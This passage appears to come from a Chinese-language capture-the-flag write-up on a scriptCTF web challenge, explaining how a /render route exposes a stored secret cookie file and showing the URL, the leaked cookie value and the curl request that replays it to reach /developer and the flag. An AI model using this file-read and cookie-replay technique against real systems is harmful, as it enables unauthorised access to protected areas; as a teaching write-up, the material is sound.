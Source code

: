     - 网站主页允许用户上传扩展名为 `.jpg`, `.jpeg`, `.png` 或 `.svg` 的图片文件。
        
    - 当文件上传后，服务器会为其生成一个密码学安全的随机哈希值作为新的文件名，以防止文件名冲突。
        
    - 文件被保存在 `./static/uploads/` 目录下，格式为 `{哈希值}.{原始扩展名}`。
        
    - 最后，服务器将用户重定向到 `/render/` 页面以显示上传的图片。
        
2. **图片渲染 (`/render/<path:filename>`)**
    
    - 这个端点的功能是显示已上传的图片。
        
    - 它从 URL 中获取一个 `filename` 参数。此处的路由使用了 `<path:filename>` 转换器，这一点至关重要，因为它**允许 `filename` 变量中包含斜杠（`/`）**。
        
    - 然后，它渲染 `display.html` 模板。在这个模板中，会创建一个 `<iframe>`，其 `src` 属性通过简单的字符串拼接设置为 `"/static/uploads/" + filename`。
        
3. **开发者区域 (`/developer`)**
    
    - 这是包含 flag 的目标端点。
        
    - 对该区域的访问由一个名为 `developer_secret_cookie` 的 Cookie 进行保护。
        
    - 服务器会将用户请求中的 Cookie 值与存储在 `./static/uploads/secrets/secret_cookie.txt` 文件中的秘密值进行比较。

#### 漏洞利用点

1. 目录任意读取
	
	- `/render/`路由可以读取文件  
	
2. 设置 Cookie 并访问`/developer` 路由  
	
	- 读取Cookie文件后，携带Cookie文件去访问`/developer` 路由  

```bash
http://play.scriptsorcerers.xyz:10118/render/secrets/secret_cookie.txt

cookie:d4b2b8e4bf13c506d73d831c73792e9b80eb1d03ae09ab52d0415446516a8a4a

curl --cookie "developer_secret_cookie=d4b2b8e4bf13c506d73d831c73792e9b80eb1d03ae09ab52d0415446516a8a4a" http://play.scriptsorcerers.xyz:10118/developer

Welcome! There is currently 1 unread message: scriptCTF{my_c00k135_4r3_n0t_s4f3!_e19acf366f43}
```

## Reverse
### Plastic Shield

main函数  